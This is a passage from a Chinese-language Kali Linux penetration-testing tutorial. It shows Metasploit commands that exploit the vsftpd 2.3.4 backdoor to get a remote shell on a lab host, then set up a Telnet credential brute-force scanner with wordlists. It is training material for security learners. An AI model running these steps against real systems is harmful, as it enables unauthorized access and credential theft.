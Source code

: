 1.  Metasploit 将为我们提供符合搜索条件的结果列表。您应该看到控制台返回一个名为`vsftpd_234_backdoor`的基于 Unix 的利用。要在我们的目标上使用此利用，使用以下一系列命令：

```
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor 
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.100 
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```

在我的实验室环境中，目标使用`10.10.10.100` IP 地址。在设置`RHOSTS`（远程主机）值之前，请确保验证目标设备的 IP 地址。此外，许多模块将要求您设置远程目标。您可以使用`setg`命令全局设置目标。

1.  执行`exploit`命令。Metasploit 将尝试将利用代码推送到目标。一旦成功，将创建一个 shell。shell 允许我们从攻击者机器上远程执行命令到目标上，如下图所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/lrn-kali19/img/3a1e0848-b25b-4f21-843c-94d39b60b94b.png)

1.  在这一点上，任何在控制台上执行的命令都将在目标上执行。执行`uname -a`命令来验证并打印系统信息：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/lrn-kali19/img/481363eb-6936-42b7-89f4-7baeac5cad09.png)

通常，在对公共和内部系统进行简单的端口扫描时，端口`23`通常是用于远程管理的开放端口。但是，端口`23`是 Telnet 协议使用的默认端口。Telnet 是一种不安全的协议，允许用户通过网络远程访问计算机，并且所有通过用户之间传递的流量都是未加密的。任何启用 Telnet 的设备都容易受到中间人攻击，攻击者可以轻松捕获用户凭据。

1.  让我们使用`search`命令查找一个有用的模块，以检查 Telnet 启用设备上的有效用户凭据。首先，使用以下命令：

```
search telnet
```

1.  通常，将与搜索条件相符的结果列表呈现在控制台上。在这个练习中，我们将使用特定的扫描程序来检查验证的用户帐户：

```
msf5 > use auxiliary/scanner/telnet/telnet_login
```

1.  接下来，设置您的远程主机：

```
msf5 auxiliary(scanner/telnet/telnetlogin) > set RHOSTS 10.10.10.100
```

1.  如果您有包含不同用户名的单词列表，请使用以下命令（指定文件路径）：

```
msf5 auxiliary(scanner/telnet/telnetlogin) > set USER_FILE <username word list>
```

如果您有密码列表，可以选择使用以下命令：

```
msf5 auxiliary(scanner/telnet/telnetlogin) > set PASS_FILE <wordlist>
```

1.  但是，如果您没有任何单词列表，也没关系。您可以使用以下命令指定单个用户名和密码：

```
msf5 auxiliary(scanner/telnet/telnetlogin) > set USERNAME uname msf5 auxiliary(scanner/telnet/telnetlogin) > set PASSWORD word
```

1.  完成后，使用`run`命令执行`auxiliary`模块：
